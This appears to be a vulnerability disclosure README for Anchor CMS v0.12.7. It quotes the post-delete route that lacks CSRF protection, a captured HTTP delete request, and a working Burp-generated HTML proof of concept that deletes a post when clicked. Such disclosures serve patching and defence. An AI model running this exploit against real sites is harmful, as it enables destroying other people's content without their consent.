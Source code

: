 # anchorcms-0.12.7-CSRF
CSRF (Cross-site request forgery) Vulnerability discovered in Anchor CMS v0.12.7 and that can delete posts.

# Vulnerability Analysis  

Request interface for adding, deleting, modifying and checking posts in anchor/routes/posts.php.

let us see code it delete a posts. 

https://github.com/anchorcms/anchor-cms/blob/master/anchor/routes/posts.php#L355
```
    /**
     * Delete post
     */
    Route::get('admin/posts/delete/(:num)', function ($id) {
        Post::find($id)->delete();
        Comment::where('post', '=', $id)->delete();

        Query::table(Base::table('post_meta'))
             ->where('post', '=', $id)
             ->delete();

        Notify::success(__('posts.deleted'));

        return Response::redirect('admin/posts');
    });
```
There is no check on token or referer and delete directly.

# Reproduce and PoC

1. Login in as a admin.
2. create some posts for deleteing
3. use brupsuite get a delete request packet
```
GET /admin/posts/delete/6 HTTP/1.1
Host: 192.168.1.89
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.1.89/admin/posts/edit/3
Cookie: anchorcms=ng848botkffiu4c1lrgbgo50ri
Upgrade-Insecure-Requests: 1

```

The request just delete a posts that id is 6. 

4. use brupsuite to generat a csrf PoC.
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.1.89/admin/posts/delete/6">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
Then save the PoC code to a exploit.html, and click exploit.html to csrf attack.
![1](https://user-images.githubusercontent.com/11525772/154665895-36b7575d-368d-495c-830e-80fc17bc02c0.jpg)


click it to send a request and delete it successfully.
![1645180292(1)](https://user-images.githubusercontent.com/11525772/154665976-e329e3d5-b820-43fa-a9c3-d8dce7f085b1.jpg)

 


